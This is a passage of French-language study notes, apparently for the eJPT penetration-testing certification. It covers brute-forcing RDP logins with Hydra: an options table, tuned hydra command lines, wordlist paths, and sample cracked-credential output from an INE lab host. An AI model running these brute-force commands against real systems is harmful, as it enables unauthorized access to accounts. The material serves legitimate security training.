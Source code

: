 ### Options importantes Hydra RDP
| Option | Description | Valeur recommandée |
|--------|-------------|-------------------|
| `-L <file>` | Liste d'utilisateurs | common_users.txt |
| `-P <file>` | Liste de mots de passe | unix_passwords.txt |
| `-t <threads>` | Threads (IMPORTANT) | 4 max pour RDP |
| `-f` | Arrêter après succès | Recommandé |
| `-s <port>` | Port personnalisé | 3333 |
| `-v` | Mode verbose | Optionnel |
| `-V` | Très verbose | Pour debug |

### ⚠️ Limitations critiques RDP
```bash
# JAMAIS plus de 4 threads pour RDP
hydra -L users.txt -P passwords.txt -t 4 rdp://target

# Avec délai si problèmes de connexion
hydra -L users.txt -P passwords.txt -t 2 -w 5 rdp://target

# Mode très prudent
hydra -L users.txt -P passwords.txt -t 1 -w 10 rdp://target
```

### Wordlists spécialisées RDP
```bash
# Wordlists Metasploit (recommandées eJPT)
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/common_passwords.txt

# Wordlists système
/usr/share/wordlists/rockyou.txt
/usr/share/seclists/Usernames/Names/names.txt
/usr/share/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt
```

### Interprétation résultats Hydra
```bash
# Résultats typiques attendus :
[3333][rdp] host: demo.ine.local   login: administrator   password: qwertyuiop
[3333][rdp] host: demo.ine.local   login: guest   password: 
[3333][rdp] host: demo.ine.local   login: user   password: password
[3333][rdp] host: demo.ine.local   login: backup   password: backup123

# Format : [PORT][SERVICE] host: TARGET login: USER password: PASS
```

---